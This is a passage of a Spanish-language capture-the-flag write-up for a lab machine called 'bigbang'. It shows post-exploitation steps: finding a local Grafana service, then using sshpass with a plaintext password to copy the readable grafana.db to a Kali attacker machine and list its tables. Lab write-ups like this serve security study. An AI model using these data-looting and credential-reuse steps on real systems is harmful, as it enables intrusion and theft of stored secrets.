 ```bash 
```
Inspeccionando los puertos que corren en el entorno local: 

```bash 
shawking@bigbang:~$ curl localhost:3000/login -v
<SNIP>
<!DOCTYPE html>
<html lang="en-US">
  <head>
    
    <meta charset="utf-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />
    <meta name="viewport" content="width=device-width" />
    <meta name="theme-color" content="#000" />

    <title>Grafana</title>
```
Se trata de grafana, una aplicación de código abierto para la visualización de datos provenientes de diferentes fuentes, muy util en entornos de IT. 
Podemos buscar por aquí, vamos a `/opt/data', que es en donde se guardan los datos de esta aplicación. 

```bash 
shawking@bigbang:~$ ls -l /opt/data/
total 1000
drwxr--r-- 2 root root    4096 Jun  5  2024 csv
-rw-r--r-- 1 root root 1003520 May 15 03:42 grafana.db
```

Podemos leerlo, así que nos lo traemos a nuestra máquina atacante para analizarlo: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/bigbang/www]
└─$ sshpass -p 'quantumphysics' scp shawking@10.10.11.52:/opt/data/grafana.db .
```

Analizamos las tablas: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/bigbang/www]
└─$ sqlite3 grafana.db                                                         
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
alert                        library_element_connection 
alert_configuration          login_attempt              
alert_configuration_history  migration_log              
alert_image                  ngalert_configuration      
alert_instance               org                        
alert_notification           org_user                   
alert_notification_state     permission                 
alert_rule                   playlist                   
alert_rule_tag               playlist_item              
alert_rule_version           plugin_setting             
annotation                   preferences                
annotation_tag               provenance_type            
anon_device                  query_history              
api_key                      query_history_star         
builtin_role                 quota                      
cache_data                   role                       
cloud_migration              secrets                    
cloud_migration_run          seed_assignment            
correlation                  server_lock                
dashboard                    session                    
dashboard_acl                short_url                  
dashboard_provisioning       signing_key                
dashboard_public             sso_setting                
dashboard_snapshot           star                       
```